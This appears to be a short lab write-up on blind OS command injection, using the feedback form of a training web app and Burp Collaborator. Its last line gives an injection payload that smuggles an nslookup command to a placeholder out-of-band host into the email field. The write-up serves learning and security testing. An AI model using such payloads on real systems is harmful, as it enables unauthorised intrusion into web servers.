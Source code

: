 **Objective**
Issue a DNS lookup using Burp Collaborator.

**OS Command Injection**
- An attacker is able to compromise a web application by targeting the server hosting it, using OS commands. For instance, UNIX commands for UNIX-like based servers.
- This attack is also called *shell injection*.
- *Blind* OS command injection is executed where no output is returned in response to a request.

**Point of Entry**
*Submit Feedback* form.

**Execution**
- Start intercept, fill the feedback form with random values then submit the form.
- In the issued POST request, replace email parameter with the exploit including Burp Collaborator payload.
- Forward request and stop intercepting. Open Collaborator to find DNS lookup information.

**Exploit Payload**
`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
`